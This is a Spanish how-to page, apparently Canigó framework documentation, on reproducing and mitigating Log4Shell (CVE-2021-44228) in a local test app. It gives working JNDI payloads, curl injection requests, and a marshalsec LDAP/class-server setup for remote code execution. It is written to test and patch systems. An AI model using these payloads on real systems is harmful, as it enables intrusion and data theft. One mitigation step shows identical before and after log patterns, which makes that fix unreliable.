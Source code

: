 +++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilidad: CVE-2021-44228 (log4jshell)"
description = "Como correguir la vulnerabilidad CVE-2021-44228 (log4jshell)"
section     = "howtos"
categories  = ["canigo"]
key         = "GENER2022"
+++

Esta vulnerabilidad permite ejecutar código en un servidor remoto, inyectando una petición JNDI `${jndi:(ldap|rmi|etc)}` dentro cualquier variable que se registre en el log del servidor. Para explotar la vulnerabilidad, se siguen estos pasos:

1. En el servidor que aloja la aplicación vulnerable, se registra la información que contiene la carga útil maliciosa, por ejemplo: `${jndi:ldap://[servidor]/[carga útil]}`, donde el servidor está controlado por el atacante y la carga útil contiene el comando a ejecutar.
2. La vulnerabilidad se activa y el servidor vulnerable, solicita al servidor del atacante a través de JNDI el código malicioso.
3. La respuesta del servidor del atacante contiene la ruta a una clase Java maliciosa, por ejemplo: `http://[servidor]/exploit.class`, que se inyecta en el contexto de la aplicación vulnerable.
4. La carga útil inyectada permite al atacante ejecutar código arbitrario.

> fuentes: \
> <https://github.com/YfryTchsGD/Log4jAttackSurface> \
> <https://github.com/christophetd/log4shell-vulnerable-app> \
> <https://www.tarlogic.com/blog/log4shell-vulnerability-cve-2021-44228/> \
> <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \
> <https://www.randori.com/blog/cve-2021-44228/>

## Como explotar la vulnerabilidad en Canigó

 1- Crear una aplicación con el archetype de Canigó por ejemplo: `CanigoLog4jShellTest`

  ```sh
  # Canigó 3.6
  mvn archetype:generate \ 
  -DarchetypeGroupId=cat.gencat.ctti \
  -DarchetypeArtifactId=plugin-canigo-archetype-rest \
  -DarchetypeVersion=1.7.0 \
  -DartifactId=CanigoLog4jShellTest \
  -DgroupId=cat.gencat.ctti \
  -Dversion=1.0.0 -B
  ```

 2- Modificar el servicio de pruebas: `EquipamentServiceController` para imprimir en el log, los parámetros de entrada del servicio de creación de equipaments

  ```java
  import org.apache.logging.log4j.LogManager;
  import org.apache.logging.log4j.Logger;
  
  private static Logger log = LogManager.getLogger(EquipamentServiceController.class.getName());

  public void saveEquipament(@RequestBody Equipament equipament) {
    log.error("equipament.getNom() {}", equipament.getNom());
    ...
  }
  ```

 3- Iniciar el proyecto creado con el servidor tomcat embebido, por ejemplo:

  ```sh
  mvn clean spring-boot:run

  # or

  mvn clean package && java -jar ./target/CanigoLog4jShellTest.war

  # or

  mvn clean package docker:build \
    && docker run -it --rm \
    --net=host \
    --name="log4jshell-local" \
    --memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
    canigo/app
  ```

### Utilizando el proyecto `canarytokens`

---

> El proyecto de código abierto: `canarytokens` permite generar tokens para explotar vulnerabilidades. \
> Sí al utilizar un token se explota una vulnerabilidad, se envía un correo electrónico con los detalles del acceso \
> <https://docs.canarytokens.org/guide/> \
> <https://github.com/thinkst/canarytokens> \

 4- Generar un token tipo `log4jshell` desde: <https://canarytokens.org/generate#>, por ejemplo:

  ```txt
  ${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}
  ```

 5- Generar una peticion HTTP Request para crear un `equipament` y en el nombre enviar el token malicioso creado con `canarytokens`

  ```sh
  curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
    --header 'Content-Type: application/json' \
    --data-raw '{ "nom": "${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}","municipi": "Barcelona"}'
  ```

 6- Verificar en el buzón del correo configurado en `canarytokens` y comprobar el correo con la traza de la conexión remota al servidor de la aplicación

  ![Email exploit test](/images/howtos/log4jshell/email_exploit_alert.png)

  ![Canary tokens exploit details 1](/images/howtos/log4jshell/canary_token_exploit_details1.png)

  ![Canary tokens exploit details 2](/images/howtos/log4jshell/canary_token_exploit_details2.png)

### Utilizando un servidor LDAP

---

> Se requiere: SO Linux, Python3, git, maven, acceso a internet

 4- Iniciar un servidor web que contenga el código malicioso a inyectar

  > Se puede utilizar el proyecto `https://github.com/cybereason/Logout4Shell.git` y modificar la clase `Log4jRCE.java` para agregar cualquier código malicioso que se quiera inyectar en un servidor. \
  > Por ejemplo se puede agregar este código para inyectar en el servidor una traza

  ```java
    String dateNow = ZonedDateTime.now(ZoneId.of("Europe/Madrid")).format(DateTimeFormatter.ofPattern("yyyy-MM-dd'T'HH:mm:ss.SSSZ"));
    System.out.println("Log4JShell - JPJE ----------------------------: " + dateNow);
  ```

  ```sh
  git clone https://github.com/cybereason/Logout4Shell.git
  mvn clean package
  cd target/classes
  python3 -m http.server 8888
  ```

 5- Iniciar un servidor LDAP

  > Se puede utilizar el proyecto `https://github.com/mbechler/marshalsec.git`

  ```sh
  git clone https://github.com/mbechler/marshalsec.git
  mvn clean package -DskipTests
  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
  ```

 6- Generar una peticion HTTP Request para crear un `equipament` y en el nombre enviar el token malicioso creado con `canarytokens`

  ```sh
  curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
    --header 'Content-Type: application/json' \
    --data-raw '{ "nom": "${jndi:ldap://127.0.0.1:1389/a}","municipi": "Barcelona"}'
  ```

 7- Revisar en el log de la aplicación `CanigoLog4jShellTest` los efectos de explotar la vulnerabilidad

  > Con la vulnerabilidad

  ![LDAP exploit](/images/howtos/log4jshell/log4jshell_trace1.gif)

  > Sin la vulnerabilidad

  ![LDAP no exploit](/images/howtos/log4jshell/log4jshell_trace2.gif)

  > Se puede apreciar en el log de `CanigoLog4jShellTest` la traza generada por el código inyectado. Se podria obtener por ejemplo, todas las variables de entorno, o los archivos de configuración y enviarlos por correo

## Como solventar/mitigar la vulnerabilidad

---

 1- Sustituir la version de la dependencia de la librería `log4j` (tiempo de compilación). Por ejemplo:

  1-1 modificando el: `pom.xml` (Opción recomendada) (requiere recompilar y desplegar)

  ```xml
  <properties>
    <log4j2.version>2.15.0</log4j2.version>
  </properties>
  ```

  1-2 inyectando la variable durante la construcción de la aplicación (requiere recompilar y redesplegar)

  ```sh
  mvn -Dlog4j2.version=2.15.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
  ```

 2- Configurar la variable: `log4j2.formatMsgNoLookups (tiempo de ejecución)

  2-1 inyectando la variable (sirve para: 2.10 >= log4j >= 2.14.1) (requiere redesplegar)

  ```sh
  mvn clean package && java -Dlog4j2.formatMsgNoLookups=true -jar ./target/CanigoLog4jShellTest.war
  ```

  2-2 agregando una variable de entorno (sirve para: 2.10 >= log4j >= 2.14.1) (requiere redesplegar)

  > fuente: https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/

  ```sh
  mvn clean package docker:build \
    && docker run -it --rm \
    --net=host \
    --name="log4jshell-local" \
    --memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
    --env LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
    canigo/app
  ```

 3- Modificar el patron de trazas configuradas en el archivo: `log4j.xml` (sirve para: 2.0-beta1 >= log4j >= 2.14.1) (requiere recompilar y redesplegar), por ejemplo:

  > fuente: https://kb.vmware.com/s/article/87093

  ```sh
  ## cambiar:
  <PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />

  ## por:
  <PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />
  ```

 4- Eliminar la clase `maliciosa` (sirve para: 2.0-beta1 >= log4j >= 2.14.1) (requiere recompilar y redesplegar), por ejemplo:

  ```sh
  zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
  ```
